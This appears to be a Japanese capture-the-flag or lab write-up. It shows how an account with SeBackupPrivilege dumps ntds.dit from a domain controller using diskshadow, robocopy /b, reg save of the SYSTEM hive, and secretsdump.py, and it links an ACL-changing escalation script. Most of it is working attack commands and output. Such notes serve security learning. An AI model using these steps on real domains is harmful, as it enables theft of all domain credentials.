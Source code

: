 ## ntds.ditとは？
- **ドメインコントローラーの中でも最も重要なデータベースファイル**
- All data in Active Directory is stored in the file **ntds.dit** (by default located in `C:\Windows\NTDS\`) on every domain controller. (c.f.[Ntds.dit Password Extraction(stealthbits)](https://attack.stealthbits.com/ntds-dit-security-active-directory))
- Admin権限 or **backupユーザー** であれば見れるかも
- **SeBackupPrivilege**が読むことを、**SeRestorePrivilege**が書き込むこと、この二つの権限があれば良い。
- ntds.ditの存在場所：**C:\Windows\NTDS\ntds.dit**
- NTDSファイルをdecryptするためにはkeyが必要で、そのkeyは**system registry hive**なるレジストリに含まれている。-> `reg save hklm\system c:\temp\system`


c.f.)
- 複数のやり方が書いてある -> [Tha Hacker Recipies](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds)
- 実際にうまく動いた -> [Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

**SeBackupPrivilege**がある：

```
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

# 一番手っ取り早い方法

[このスクリプト](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)を使う：


![change_permission](https://user-images.githubusercontent.com/85237728/149320232-492d553b-6219-4981-b06c-5a81d6d61cac.png)


`whoami`でsystemとは出ないが、確かにroot.txtが読めた。



# 実際にやってみた（参考：[Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)）

ntds.ditのコピーにおいて、普通の`copy`コマンドではpermission deniedになってしまう。そこで`robocopy`を使う。特に`/b`（または`/B`）フラグで**バックアップとして**コピーができる。つまりAdmin権限がなくても、backupユーザの権限があればpermission deniedにならない（[robocopyについての詳細](https://n-archives.net/software/robosync/articles/robocopy-specs-and-command/#i-3-1)）

*注）先に`mkdir C:\temp`として一時的なディレクトリを作っておく*

-> しかし`PS C:\temp> roboropy C:\Windoes\NTDS\ntds.dit . ntds.dit`というふうに直接コピーすると、現在アクティブなのでコピーできないと言われる。

-> そこで新しいドライブを作り、`diskshadow`でドライブ間のコピーを行うという方法をとる

（スクリプト）

```
┌──(kali㉿kali)-[~]
└─$ cat back_script.txt
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

- スクリプトターゲット上にアップロード（遅かったらsmb使おう）：

```
*Evil-WinRM* PS C:\Users\svc_backup\Downloads> upload /home/kali/back_scrip.txt
```

- `diskshadow`コマンドにスクリプトを指定して実行：

```
*Evil-WinRM* PS C:\Users\svc_backup\Downloads> diskshadow /s back_script.txt
```

これで E:\ ドライブに C:\ ドライブの内容がコピーされた。E:\は現在アクティブじゃないから、`robocopy`が使える：

```
*Evil-WinRM* PS E:\> cd C:\ 
*Evil-WinRM* PS C:\> mkdir tmp
*Evil-WinRM* PS C:\> cd tmp
*Evil-WinRM* PS C:\temp> robocopy /b E:\Windows\ntds . ntds.dit
```

- ntds.ditの復号にはレジストリのキーが必要なのでそれをロードする：

```
*Evil-WinRM* PS C:\temp> reg save hklm\system c:\temp\system
```

その後**ntds.dit**と**system**をKaliに転送する。

Kali上でcrack：

```
secretsdump.py -system system -ntds ntds.dit LOCAL
```
